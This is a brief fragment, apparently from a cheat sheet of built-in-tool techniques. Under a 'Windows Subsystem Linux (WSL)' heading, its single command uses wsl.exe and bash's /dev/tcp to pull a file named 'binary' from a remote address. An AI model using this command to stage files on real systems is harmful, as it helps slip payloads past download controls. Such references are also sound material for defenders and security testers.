 # Windows Subsystem Linux (WSL)

    wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
